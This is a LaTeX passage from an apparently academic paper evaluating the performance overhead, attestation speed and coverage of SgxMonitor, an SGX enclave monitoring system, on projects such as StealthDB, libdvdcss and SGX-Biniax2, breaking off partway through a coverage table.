More precisely, we measure micro-benchmark, macro-benchmark, attestation speed, 
coverage and precision.
We answer \textbf{RQ2} in Section~\ref{ssec:security-properties} by testing 
the SgxMonitor security guarantees against a set of modern SGX attacks.

\subsection{RQ1 - Usage Evaluation}
\label{ssec:usage-evaluation}

We describe the use cases used, the experiment setup, and discuss the 
impact of SgxMonitor in real projects.

\paragraph{Use Cases.}
We identified $10$ open-source projects that use SGX. 
Most of them do not compile because they refer to old SGX 
features or they are incompatible with Clang.
Among them, we choose five use cases:
\begin{enumerate*}[label=(\roman*)]
	\item \textsf{Contact}~\citep{signalrepo}, the contact discovery service 
	used 
	by Signal app~\citep{signalapp} ($4138$ LoC and $6$ secure functions); 
	\item an SGX porting of \textsf{libdvdcss}~\citep{libdvdcss}, a portable 
	DRM 
	algorithm used by VLC media player~\citep{videolan} ($3438$ LoC and $4$ 
	secure functions); 
	\item \textsf{StealthDB}~\citep{stealthdb}, a 
	PostgreSQL~\citep{momjian2001postgresql} plugin that uses SGX to encrypt
	tables ($10351$ LoC and $3$ secure functions);
	\item \textsf{SGX-Biniax2}~\citep{bauman2016case}, an SGX poring of the 
	open-source game Biniax2~\citep{biniax2} ($4696$ LoC and $7$ secure 	
	functions); and
	\item a \textsf{unit-test} to validate corner cases of the enclave 
	behaviors not covered previously, like 
	exception handling ($583$ LoC and $3$ secure functions).
\end{enumerate*}
We use \textsf{Contact}, \textsf{StealthDB}, \textsf{SGX-Biniax2}, and the 
\textsf{unit-test} to stress micro-benchmarks 
(Section~\ref{ssec:microbenchmark}) and attestation speed 
(Section~\ref{ssec:attesation-speed}).
We use \textsf{libdvdcss}, \textsf{StealthDB}, and \textsf{SGX-Biniax2} for 
macro-benchmarks (Section~\ref{sssec:macro-benchmar}).
All the five use cases are used for coverage and precision analysis 
(Section~\ref{sssec:coverage}).

\paragraph{Experiment Setup.}
All the experiments were performed on a Linux machine with kernel version 
$4.15.0$ and equipped with an Intel i7 processor and $16$GB of memory.
We set the CPU power governor as \emph{power save}.
Moreover, we perform a warm-up round for each \emph{secure function} before 
actually recording the performances.

\begin{figure}[t]
	\centering
	%	\begin{subfigure}{.33\textwidth}
	%		\centering
	%		
\includegraphics[width=\linewidth]{fig_c6/overhead.png}
	%		\caption{microbenchmark of secure functions with and without 
	%		SgxMonitor active.}
	%		\label{fig:overhead}
	%	\end{subfigure}
	%	~
	\begin{subfigure}[t]{.47\textwidth}
		\centering
		
\includegraphics[width=\linewidth]{fig_c6/multiply.eps}
		\caption{Overhead of vanilla secure functions versus SgxMonitor 
			secure 
			functions of \textsf{Contact} (ct\emph{x}), \textsf{SGX-Biniax2} 
			(bx\emph{x}), \textsf{StealthDB} (sd\emph{x}) and 
			\textsf{unit-test} enclave (ut\emph{x}) expressed in logarithmic 
			scale. Median overhead is around $3.9$x and is depicted as a dashed 
			line.}
		\label{fig:multiply}
	\end{subfigure}
	\hfill
	\begin{subfigure}[t]{.47\textwidth}
		\centering
		
\includegraphics[width=\linewidth]{fig_c6/action-second.eps}
		\caption{Number of \emph{actions} processed per second of 
			\textsf{Contact} (ct\emph{x}), \textsf{SGX-Biniax2} 
			(bx\emph{x}), \textsf{StealthDB} (sd\emph{x}) and 
			\textsf{unit-test} enclave (ut\emph{x}). Median value is $260$K 
			\emph{action} per second and is depicted as a dashed line.}
		\label{fig:action-second}
	\end{subfigure}
	\caption{SgxMonitor micro-benchmark and \emph{action} speed measurement 
		evaluation.}
	\label{fig:fig}
\end{figure}

\subsubsection{Micro-benchmark}
\label{ssec:microbenchmark}

In this experiment, we measure the overhead of the single secure functions
with SgxMonitor and without (\ie vanilla).
We perform this experiment on \textsf{Contact}, \textsf{SGX-Biniax2}, 
\textsf{StealthDB} and the \textsf{unit-test} enclave.
The results are shown in Figure~\ref{fig:multiply}.
%, more precisely, ct\emph{x} indicates the results of the \textsf{Contact} 
%secure functions and ut\emph{x} of the \textsf{unit-test} ones.
In most of the cases, SgxMonitor introduces an overhead less than or equal 
to 
$10$x (bx$1$-$7$, ct$1$-$2$, ct$4$, ct$6$, ut$1$-$3$) with a median overhead of 
$3.9$x.
Only two secure functions show an overhead over $100$x (ct$3$ and ct$5$).

\vspace{0.5cm}
\noindent \textbf{Micro-benchmark---Take Away.}
A major source of overhead is incurred by the hash functions in the secure 
communication protocol (Section~\ref{ssec:secure-communication-protocol}), as 
observed in previous runtime RA~\citep{scarr,abera2016c,aberadiat}.
Different hash functions can ease the overhead, \eg the Intel SHA 
extension~\citep{gulley2013intel} or Blake2~\citep{aumasson2013blake2}.
However, This result does not really affect the performance of SgxMonitor 
that is line with previous works~\citep{scarr} for the of attestation speed 
(Section~\ref{ssec:attesation-speed}) and final user experience 
(Section~\ref{sssec:macro-benchmar}).

%\todo{OLD discussion, shall we keep it?}
%We analyzed the discrepancy between ct$3$ and ct$5$ and other secure 
%functions by observing the composition of the secure function execution 
%(\emph{t}),
%which is composed by the context switch delay (\emph{cs}) and an actual 
%execution time delay (\emph{ex}): $t = cs + ex$.
%In all the cases, the contribution of \emph{cs} is constant due to the 
%warm-up that smoothed random machine status (\eg cache, microcode delay) while
%\emph{ex} depends on the number of \emph{actions} emitted.
%Overall, all the functions, but ct$3$ and ct$5$, emit a similar number of 
%\emph{actions} thus the contribution of \emph{ex} is similar.
%On the contrary, ct$3$ and ct$5$ emit a higher number of \emph{actions}, thus 
%the contribution of \emph{ex} impacts more compared with the \emph{cs} one.

%We discuss a macrobenchmark analysis to measure whether the micro-level 
%overhead might afflict the final user experience 
%(Section~\ref{sssec:macro-benchmar}).

\subsubsection{Attestation Speed}
\label{ssec:attesation-speed}

Figure~\ref{fig:action-second} measures the attestation speed in terms of 
number of \emph{actions} emitted and validated per second (on the y-axes) for 
each \emph{secure functions} of \textsf{Contact}, \textsf{SGX-Biniax2}, 
\textsf{StealthDB}, and the \textsf{unit-test} enclave (on the x-axes).
The execution time encompasses the context-switch delay, \emph{actions} 
emission, transmission, and verification at the \emph{monitor} side.

All the secure functions, but ct$1$, ct$5$ and bx$7$, express a throughput
that ranges from $167$K \emph{action}/sec (bx$2$) to $496$K 
\emph{action}/sec (ct$6$), with a median value of $260$K \emph{action}/sec.

\vspace{0.5cm}
\noindent \textbf{Attestation Speed---Take Away.}
These figures are in line with the previous RA works \citep{scarr}.
ct$1$, instead, emits a fewer number of  \emph{actions} and biases the 
attestation speed.
Finally, bx$7$ and ct$5$ perform sealing operations \citep{anati2013innovative} 
and thus introduce an extra delay per \emph{action}.

%ut1 :    357827.7105449074
%ut2 :    463019.3737053735
%ut3 :    408761.67014568264
%ct1 : 441153737.0238829
%ct2 :    282257.30575993075
%ct3 :    387111.21562789154
%ct4 :    208793.78303779676
%ct5 :     10860.764002950118 -> slower?
%ct6 :    496361.2341876099
%bx1 :    208324.6531394525
%bx2 :    167192.47488478257
%bx3 :    193815.88874967984
%bx4 :    169665.373libdvdcss61086474
%bx5 :    238251.72527111403
%bx6 :    167479.25118165914
%bx7 :     46067.869091001514
%sd2 :    300232.68032725365
%sd1 :    377292.38812606956

\begin{figure}[t]
	\centering
	\begin{subfigure}[b]{0.49\textwidth}
		\centering
		
\includegraphics[width=\textwidth]{fig_c6/request_per_second.eps}
		\caption{Overhead of \textsf{StealthDB} vanilla and with SgxMonitor 
			measured as requests per second.
			Overall, SgxMonitor introduces an average slowdown of $1.68$x with 
			a 
			standard deviation of $0.02$x.}
		\label{fig:request_per_second}
	\end{subfigure}
	\hfill
	\begin{subfigure}[b]{0.49\textwidth}
		\centering
		
\includegraphics[width=\textwidth]{fig_c6/latency_2.eps}
		\caption{Overhead of \textsf{StealthDB} vanilla and with SgxMonitor 
			measured as latency (ms). 
			Overall, SgxMonitor introduces an average overhead of $1.24$\% with 
			a  
			standard deviation of $0.06$\%.}
		\label{fig:latency_2}
	\end{subfigure}
	\caption[SgxMonitor \textsf{StealthDB} 
	macro-benchmark.]{\textsf{StealthDB}~\citep{stealthdb} 
	performances measured against OLTP~\citep{oltp} benchmark and expressed as 
	request per second and latency. We evaluated \textsf{StealthDB} vanilla and 
	with SgxMonitor, in particular, we run $10$ measurements for each scale 
	factor (from $1$ to $16$) and plot average and standard deviation for 
	requests per second and latency, respectively.}
	\label{fig:request_per_second_latency}
\end{figure}

\begin{figure}[t]
	\centering
	\begin{subfigure}[t]{0.49\textwidth}
		\centering
		
\includegraphics[width=\textwidth]{fig_c6/vlc_performance.pdf}
		\caption{Overhead of VLC with \textsf{libdvdcss} vanilla, plus SGX, and 
			plus SgxMonitor, respectively. We measure the percentage of CPU 
			usage 
			while playing the same DVD with the three settings.
			After an initial adjusting phase, the overhead drops and reaches a 
			plateau lower then $10$\%.}
		\label{fig:vlc_performance}
	\end{subfigure}
	\hfill
	\begin{subfigure}[t]{0.49\textwidth}
		\centering
		
\includegraphics[width=\textwidth]{fig_c6/biniax2_performance.pdf}
		\caption{Overhead of \textsf{SGX-Biniax2} vanilla and with 
			SgxMonitor, 
			respectively. We measure the percentage of CPU usage while playing 
			the 
			game for the same amount of time (around $20$m).
			After an initial adjusting phase, the overhead drops and reaches a  
			plateau at around $5$\%.}
		\label{fig:biniax2_performance}
	\end{subfigure}
	\caption[SgxMonitor \textsf{libdvdcss} and \textsf{SGX-Biniax2}
	macro-benchmark.]{Macro-benchmark of \textsf{libdvdcss}~\citep{libdvdcss}, 
	deployed over VLC media player~\citep{videolan}, and 		
	\textsf{SGX-Biniax2}~\citep{bauman2016case}. In both cases, we measured the 
	CPU usage and the overhead introduced by SgxMonitor versus the vanilla 
	version of the software.}
	\label{fig:vlc_biniax2_performance}
\end{figure}

\subsubsection{Macro-benchmark}
\label{sssec:macro-benchmar}

We investigate the impact of SgxMonitor in three real applications.
\begin{enumerate*}[label=(A\arabic*)]
	\item \textsf{StealthDB} \citep{stealthdb}, which is a plugin for 
	PostgreSQL \citep{momjian2001postgresql} based on SGX.
	\item \textsf{libdvdcss} \citep{libdvdcss}, which is a DRM library used in 
	VLC media player \citep{videolan}.
	\item \textsf{SGX-Biniax2} \citep{bauman2016case}, which is an SGX porting 
	of the open-source game Biniax2 \citep{biniax2}.
\end{enumerate*}

\paragraph{StealthDB.}
We replicated the same experiments described in the 
original paper~\citep{stealthdb}. 
In particular, we deployed \textsf{StealthDB} over a 
PostgreSQL~\citep{momjian2001postgresql} version $10.15$ 
and we run the database benchmarking tool OLTP~\citep{oltp} by using the
five scale factors indicated in the original work.
Then, we reported the requests per second and the latency in 
figure~\ref{fig:request_per_second} and~\ref{fig:latency_2}, respectively.
For each scale factor, we run $10$ experiments and indicate average and 
standard deviation.
Overall, SgxMonitor introduces an average slowdown of $1.68$x and an 
overhead 
of $1.25\%$ in terms of requests per second and latency, respectively.

\paragraph{libdvdcss.}
We measured the CPU impact of SgxMonitor over \textsf{libdvdcss}, which is 
an 
DRM library used in VLC media player~\citep{videolan}.
For the experiment, we used a VLC version $3.0.8$, on which we deployed three 
versions of \textsf{libdvdcss}~\citep{libdvdcss}: vanilla, with SGX, and with 
SgxMonitor.
During the experiment, we played a DVD for around one hour and half while 
sampling the CPU usage every second.
Figure~\ref{fig:vlc_performance} shows the result of our experiment, after a 
first adjusting phase, the overhead reaches a plateau below $10\%$.
Furthermore, we did not experience any delay or interruption while playing the 
DVD in any of the three configurations.

%\vspace{2.5mm}
\paragraph{SGX-Biniax2.}
We measured the CPU impact of SgxMonitor over 
\textsf{SGX-Biniax2}~\citep{bauman2016case}, an example of video game porting 
that uses SGX for data protection.
In particular, we played the game for around $20$ minutes and we sampled the 
CPU usage every second.
Figure~\ref{fig:biniax2_performance} shows the result of our experiment, 
similarly to \textsf{libdvdcss}, we observed a first adjusting phase followed 
by a plateau at around $5\%$.
Furthermore, we did not experience any delay or interruption while playing 
\text{SGX-Biniax2} in any of the two configurations.

\vspace{0.5cm}
\noindent \textbf{Macro-benchmark---Take Away.}
The results of our experiments show that the overhead introduced by 
SgxMonitor is overall limited, \eg the slowdown in \textsf{StealthDB} is lower 
than the micro-benchmarks (\ie $1.6$x vs $3.9$x) and the CPU overhead expressed 
by \textsf{libdvdcss} and \textsf{SGX-Biniax2} shows a limited plateau.
Therefore, we conclude that SgxMonitor does not affect the final user 
experience and can be included into projects that either require occasional 
enclave interactions (like DRM protection) or are more computational intense 
(like a database).


%\begin{table}[t]
%	\centering
%	\begin{tabular}{lrrrr}
%		\toprule 
%		& \multicolumn{2}{c}{\emph{csstest}} & \multicolumn{2}{c}{VLC} \\
%		& \multicolumn{1}{c}{SgxMon.} & \multicolumn{1}{c}{vanilla} & 
%		\multicolumn{1}{c}{SgxMon.} & \multicolumn{1}{c}{vanilla} \\ \midrule
%		user [s]   & $0.260$ & $0.020$ & $34.660$ & $11.420$ \\ 
%		system [s] & $0.020$ & $0.020$ & $0.890$ & $2.210$ \\
%		total [s]  & $0.278$ & $0.315$ & $30.484$ & $30.635$ \\
%		CPU load   & $100\%$ & $12\%$ & $120\%$ & $44\%$ \\
%		\bottomrule
%	\end{tabular} 
%	\caption{Macrobenchmark of SgxMonitor implemented in \textsf{libdvdcss} 
%and 
%	deployed on \emph{ccstest} and VLC. Overall, the CPU load and the kernel is 
%	more involved because SgxMonitor requires a dedicated thread that 
%	costantely sends \emph{actions} to a \emph{monitor}. During the 
%	experiments, we did not observe any lag playing the DVD.\todo{replace with 
%	VLC, SGX-Biniax, and StealthDB plots}}
%	\label{tbl:macrobenchmark}
%\end{table}


\begin{table}[t]
%\begin{sidewaystable}
	\centering
	\resizebox{\columnwidth}{!}{%
	\begin{tabular}{lrrrrrrrrrr}
		\toprule 
		
		\multirow{2}{*}{Use case} &
		\multirow{2}{*}{\# functions} & 
		\multicolumn{2}{c}{\emph{action}} & 
		\multicolumn{2}{c}{edge} & 
		\multicolumn{1}{c}{\% \emph{action}} & 
		\multicolumn{1}{c}{\# functions} & 
		\multicolumn{3}{c}{analysis time [s]} \\ 
		
		& & \multicolumn{1}{c}{$\mu$} & \multicolumn{1}{c}{$\sigma$} & 
		\multicolumn{1}{c}{$\mu$} & \multicolumn{1}{c}{$\sigma$} & 
		\multicolumn{1}{c}{explored} & \multicolumn{1}{c}{static} & 
		\multicolumn{1}{c}{$\mu$} & \multicolumn{1}{c}{$\sigma$} & 
		\multicolumn{1}{c}{total} \\
		
		\midrule	
		\textsf{Contact} & $71$ & $12.77$ & $12.59$ & $15.09$ 
		& 
		$17.64$ & $96.4\%$ & $1$ & $20.20$ & $85.9$ & $1397.12$ \\
		\textsf{libdvdcss} & $47$ & $25.40$ & $22.05$ & 
		$34.44$ 
		& $31.50$ & $92.8\%$ & $8$ & $93.44$ & $205.3$ & $4205.18$ \\
